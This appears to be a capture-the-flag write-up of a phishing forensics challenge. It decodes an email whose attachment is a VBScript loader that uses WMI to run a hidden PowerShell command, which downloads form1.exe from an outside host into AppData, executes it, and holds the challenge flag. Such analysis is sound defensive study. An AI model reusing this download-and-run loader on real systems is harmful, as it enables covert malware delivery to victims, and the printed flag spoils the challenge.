

# WRITE_UP #

## URGENT ##

## 1. Analysis ##
* **Given:** a file named `Urgent Faction Recruitment Opportunity - Join Forces Against KORP™ Tyranny.eml`
* **Description:**
* **Hints:**   
    * No hints are given 

## 2. Investigation ##
### SUSPICIOUS ATTACHMENT ###

First, we need to know that the `.eml` file is a file format used to store and archive individual email messages, including the subject, sender, body, and attachments.

I used this command to copy the content of the email to a `.txt` file:
```bash
cp 'Urgent Faction Recruitment Opportunity - Join Forces Against KORP™ Tyranny.eml' test.txt
```

So the contents look like this: 


We can clearly see the `subject`, `sender`, `date`, `attachments`, ... like I mentioned before.
The body is a b64 strings, decode it we got this: 

```
Dear Fellow Faction Leader,

I hope this message reaches you in good stead amidst the chaos of The Fray. I write to you with an offer of alliance and resistance against the oppressive regime of KORP™.

It has come to my attention that KORP™, under the guise of facilitating The Fray, seeks to maintain its stranglehold over our society. They manipulate and exploit factions for their own gain, while suppressing dissent and innovation.

But we refuse to be pawns in their game any longer. We are assembling a coalition of like-minded factions, united in our desire to challenge KORP™'s dominance and usher in a new era of freedom and equality.

Your faction has been specifically chosen for its potential to contribute to our cause. Together, we possess the skills, resources, and determination to defy KORP™'s tyranny and emerge victorious.

Join us in solidarity against our common oppressor. Together, we can dismantle the structures of power that seek to control us and pave the way for a brighter future.

Reply to this message if you share our vision and are willing to take a stand against KORP™. Together, we will be unstoppable. Please find our online form attached.

In solidarity,

Anonymous member
Leader of the Resistance
```

Looked like a recruit email, however I noticed at this line: `Please find our online form attached.`, and below is the online form mentioned:



Another base64 strings, using cyberchef, it gave me a hex string, combined those 2, I got this:


The form actually is a malicious program, when open the form, it will display the code `404 - Not Found`, however the real culprit is this function running hidden in the terminal:

```bash
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
	window.close()
end sub
```

The attacker used `Set Process = Service.Get("Win32_Process")` to bypass the `Windows Defender`. The argument `-windowstyle hidden` hides the terminal window when running the file. Then the attacker downloaded the file `form1.exe` from the url `https://standunited.htb/online/forms` into `AppData` then used  `Start-Process` to run the file. 

This chal shows that you need to be careful with attached files in suspicious email.
Btw the flag is hardcoded in the command `$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}`

## 3. Solution ##
1. **Result:** The flag is `HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}`


